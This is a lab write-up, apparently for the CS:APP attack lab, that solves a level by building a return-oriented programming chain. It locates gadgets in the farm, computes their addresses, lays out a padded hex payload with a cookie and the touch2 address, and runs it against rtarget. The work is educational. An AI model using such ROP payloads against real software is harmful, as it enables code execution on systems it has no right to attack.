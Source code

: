 After searching through the farm, we find the following:
```
0000000000402839 <setval_166>:
  402839:	f3 0f 1e fa          	endbr64 
  40283d:	c7 07 58 90 90 90    	movl   $0x90909058,(%rdi)
  402843:	c3                   	ret 
```
We can ignore the '90's because they are considered no op (no operation). So, we find an instruction with 58 followed by c3.

The operation is shown above at address `40283d` however, the 58 instruction doesn't start until the 3rd byte. This means we need to add 2 bytes to the address to get the exact instruction we need to implement
```
40283d + 2 bytes = 40283f
```
Now to our second instruction. We are looking for movq %rax %rdi. This instruction will move the value in rax to rdi (which is where we need the cookie!). According to the chart provided, the encoding is `48 89 c7`. So we are looking for `48 89 c7 c3`.

And here is what I find in the farm:
```
000000000040284f <getval_350>:
  40284f:	f3 0f 1e fa          	endbr64 
  402853:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
  402858:	c3                   	ret
```
The operation above is shown at the address `402853` however, the 48 instruction doesn't start until the 2nd byte. This means we need to add 1 byte to the address to get the exact instruction we need:
```
402853 + 1 byte = 402854
```
Lastly, we need the cookie which is: `0x76ebdb56`
We also need address to touch2: `0000000000402647`

Now lets combine this into our text file:
```
00 00 00 00 00 00 00 00 /*padding. Buffer = 56bytes*/
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3f 28 40 00 00 00 00 00 /*1st gadget. popq $rax* address*/
56 db eb 76 00 00 00 00 /*cookie*/
54 28 40 00 00 00 00 00 /*2nd gadget. movq %rax to %rdi address*/
47 26 40 00 00 00 00 00 /*touch2 address*/
```
We start off with the padding to reach the saved return address on the stack. Secondly, we add the 1st gadget to pop the value on the stack on to rax. Then we add the value of the cookie so it gets added to rax. Next we want to move the value that is in rax to rdi with the second gadget. And then we add touch2's address so we call the function with the correct cookie.

Now, lets made the raw exploit file:
```
./hex2raw < **r**target.l2.txt > exploit4.dat
```
```
./rtarget < exploit4.dat
```
done!
